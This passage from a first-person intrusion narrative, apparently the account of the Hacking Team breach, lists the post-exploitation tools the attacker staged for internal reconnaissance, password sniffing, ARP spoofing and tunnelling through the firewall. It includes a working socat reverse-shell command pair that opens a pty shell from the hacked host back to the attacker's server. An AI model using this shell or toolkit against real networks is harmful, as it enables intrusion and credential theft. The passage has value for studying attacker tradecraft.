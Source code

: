 The post-exploitation tools that I'd prepared were:

1) busybox

   For all the standard Unix utilities that the system didn't have.

2) nmap

   To scan and fingerprint Hacking Team's internal network.

3) Responder.py

   The most useful tool for attacking windows networks when you have access to
   the internal network, but no domain user.

4) Python

   To execute Responder.py

5) tcpdump

   For sniffing traffic.

6) dsniff

   For sniffing passwords from plaintext protocols like ftp, and for
   arpspoofing. I wanted to use ettercap, written by Hacking Team's own ALoR
   and NaGA, but it was hard to compile it for the system.

7) socat

   For a comfortable shell with a pty:
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane \
		  tcp:my_server:my_port

   And useful for a lot more, it's a networking swiss army knife. See the
   examples section of its documentation.

8) screen

   Like the shell with pty, it wasn't really necessary, but I wanted to feel
   at home in Hacking Team's network.

9) a SOCKS proxy server

   To use with proxychains to be able to access their local network from any
   program.

10) tgcd

   For forwarding ports, like for the SOCKS server, through the firewall.

[1] https://www.busybox.net/
[2] https://nmap.org/
[3] https://github.com/SpiderLabs/Responder
[4] https://github.com/bendmorris/static-python
[5] http://www.tcpdump.org/
[6] http://www.monkey.org/~dugsong/dsniff/
[7] http://www.dest-unreach.org/socat/
[8] https://www.gnu.org/software/screen/
[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
[10] http://tgcd.sourceforge.net/
